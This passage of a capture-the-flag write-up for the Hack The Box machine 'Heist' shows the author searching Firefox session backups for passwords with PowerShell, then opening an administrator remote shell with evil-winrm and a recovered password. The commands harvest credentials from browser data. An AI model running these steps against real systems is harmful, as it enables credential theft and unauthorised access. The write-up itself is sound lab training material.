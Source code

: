#### Find in Session Data

Rather than dumping memory, I can look in the user’s session data. I’ll start
by finding the Firefox profile. In this case, there’s only one:

    
    
    [10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
    
    
        Directory: C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       11/26/2019  11:35 PM                77nc64t5.default 
    

In the profile folder, there’s a folder named `sessionstore-backups`.
Sometimes after a while there will be session data backed up in this folder.
On a reset, it’s empty. When there is session data, I can find it with:

    
    
    [10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password
    

### Shell as administrator

The password for the site is reused as the administrator password for the box,
so I can just connect with `evil-winrm`:

    
    
    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\administrator -s . -e . -p '4dD!5}x/re8]FBuZ'                                                                
    
    Info: Starting Evil-WinRM shell v1.6
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

And get `root.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    50dfa3c6************************
    

[](/2019/11/30/htb-heist.html)

